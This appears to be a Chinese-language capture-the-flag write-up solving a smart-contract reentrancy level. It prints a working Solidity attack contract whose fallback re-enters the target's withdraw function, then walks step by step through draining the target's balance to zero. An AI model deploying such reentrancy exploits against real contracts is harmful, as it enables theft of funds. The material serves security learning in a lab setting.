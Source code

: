 ```
    constructor(address addr) public payable{
    ReentranceImpl = Reentrance(addr);
    requiredValue = msg.value;
    }

    function getBalance(address addr) public view returns (uint){
        return addr.balance;
    }

    function donate() public {
        ReentranceImpl.donate{value:requiredValue}(address(this));
    }

    function withdraw(uint _amount) public {
        ReentranceImpl.withdraw(_amount);
    }

    function destruct() public {
        selfdestruct(msg.sender);
    }

    fallback() external payable {
        uint256 ReentranceImplValue = address(ReentranceImpl).balance;
        if (ReentranceImplValue >= requiredValue) {
            withdraw(requiredValue);
        }else if(ReentranceImplValue > 0) {
            withdraw(ReentranceImplValue);
        }
    } 
}


```

我们使用`ReentranceImpl`标记目标合约，使用`requiredValue`来表示合约在目标合约中存的钱。同时，我们又定义`fallback`函数，每当受到资金时，就会调用`withdraw`函数，从目标合约中提取余额。让我们进行合约交互。

## 合约交互
先查看合约本身有多少以太，在浏览器上查看，发现总共有0.001以太。
![合约本身有0.001以太](https://img-blog.csdnimg.cn/df3f6681bdf44ddd97d73c116542c7ef.png#pic_center)
所以我们在部署合约时传入500000000000000 Wei，这样能反复调用三次，以确认合约的攻击效果，同时我们传入目标合约地址`0xfe3E5BdD6E5ae5efb4eea5735b3E3738991fFc2e`，部署后，攻击合约地址为`0xc9bf4c2AcdBd38CF8f73541f78A2E30Eb5e91287`。

首先我们查询合约本身余额，为500000000000000 Wei，其次我们查询目标合约余额，为1000000000000000 Wei。
![合约本身余额](https://img-blog.csdnimg.cn/f9c0c1c823dd4d349c53fb05ad7bc274.png#pic_center)
![目标合约余额](https://img-blog.csdnimg.cn/6d5c868b01964915a3bae697b33b250d.png#pic_center)
我们利用`donate`函数向目标合约存入余额。
![存入余额](https://img-blog.csdnimg.cn/4513490c53d54d549e9feb651e2114ca.png#pic_center)
此时，目标合约的余额也变成了0.0015Ether。
我们接下来发起攻击，即使用`withdraw`函数提取500000000000000 Wei。发起交易时，应在小狐狸界面修改gas。等待交易完成，此时有合约中实现了三笔转账。
![攻击完成](https://img-blog.csdnimg.cn/a082d4937ef34fd9a895022d27c8ba72.png#pic_center)
而目标合约余额已经归零，攻击完成！
![目标合约归零](https://img-blog.csdnimg.cn/83856fdd90d9424aa01bc5bfbafad993.png#pic_center)
提交实例，本关卡完成！
![关卡完成](https://img-blog.csdnimg.cn/55be13709a304bb2b3b5d28a59bc4c67.png#pic_center)
